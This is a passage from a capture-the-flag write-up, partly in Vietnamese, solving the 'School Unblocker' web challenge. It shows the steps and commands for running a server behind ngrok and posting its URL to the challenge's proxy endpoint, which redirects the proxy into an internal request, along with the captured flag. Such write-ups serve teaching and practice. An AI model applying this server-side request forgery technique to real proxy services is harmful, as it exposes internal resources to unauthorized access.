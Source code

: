 ![OOPS](./images/%5BWEB%5D_SchoolUnblocker/308_status_code.jpg)

Tóm lại,
- B1: host một server bằng đoạn code trên bằng ngrok.
- B2: gửi url từ ngrok lên endpoint /proxy
response nhận được chính là flag.

**Exploitation**:
```bash
$ python3 app.py # Run server, server will run on port 5000
```
```bash
$ ngrok http 5000 # Setup ngrok
...
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://4b31-113-161-64-254.ngrok.io -> http://localhost:5000            
Forwarding                    https://4b31-113-161-64-254.ngrok.io -> http://localhost:5000
...                              
```
```bash
$ curl -X POST -d 'url=http://4b31-113-161-64-254.ngrok.io' 'https://school-unblocker.web.actf.co/proxy' # POST URL got from ngrok
actf{dont_authenticate_via_ip_please}
```
